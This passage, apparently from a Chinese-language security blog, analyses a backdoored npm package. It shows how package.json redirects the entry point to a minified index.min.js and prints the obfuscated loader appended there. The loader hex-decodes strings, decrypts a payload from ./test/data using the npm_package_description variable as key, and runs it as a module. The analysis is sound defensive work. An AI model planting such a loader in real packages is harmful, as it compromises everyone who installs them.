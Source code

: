 [![](https://p5.ssl.qhimg.com/t01a08c1a061de98554.png)](https://p5.ssl.qhimg.com/t01a08c1a061de98554.png)

这里有一点很鸡贼，在Node.js中，一般默认文件为index.js，然而后门作者在package.json中设置真正的入口文件是index.min.js，index.min.js是压缩代码，难理解，不易察觉。

[![](https://p1.ssl.qhimg.com/t010f77d4a97c28dc74.png)](https://p1.ssl.qhimg.com/t010f77d4a97c28dc74.png)

从命名上看，index.min.js是index.js的压缩版，内容本应一样。然而在index.min.js文件的最后发现比index.js多出一些代码：

[![](https://p5.ssl.qhimg.com/t010804fef4dca52dbb.png)](https://p5.ssl.qhimg.com/t010804fef4dca52dbb.png)

展开这行压缩外码如下：

```
!(function() `{`
  try `{`
    var r = require,
      t = process;
    function e(r) `{`
      return Buffer.from(r, "hex").toString();
    `}`
    var n = r(e("2e2f746573742f64617461")),
      o = t[e(n[3])][e(n[4])];
    if (!o) return;
    var u = r(e(n[2]))[e(n[6])](e(n[5]), o),
      a = u.update(n[0], e(n[8]), e(n[9]));
    a += u.final(e(n[9]));
    var f = new module.constructor();
    (f.paths = module.paths), f[e(n[7])](a, ""), f.exports(n[1]);
  `}` catch (r) `{``}`
`}`)();
```

这里就看到了后门作者第二个鸡贼点了，找到代码依然看不懂什么意思。由于例子特殊，此分析不使用断点调试，我去用这段代码加上一些注释和输出去剖析它到底干了啥。

先把前面两段翻译一下

```
function e(r) `{`
  return Buffer.from(r, "hex").toString();
`}`

var n = require(e("2e2f746573742f64617461")),
  o = process[e(n[3])][e(n[4])];
console.log(`var n = require($`{`e("2e2f746573742f64617461")`}`)`,`o = process[$`{`e(n[3])`}`][$`{`e(n[4])`}`]`)
```

输出如下：

[![](https://p5.ssl.qhimg.com/t013cf710c063d0487a.png)](https://p5.ssl.qhimg.com/t013cf710c063d0487a.png)

由此输出我们得知，后门作者在这里引用了包内的./test/data这个文件，并且用到了一个环境变量是在Node.js项目package.json中的描述字段，此字段会在Node.js程序运行时生成环境变量npm_package_description。回头看这个目录中的内容，是一坨加密的数组。
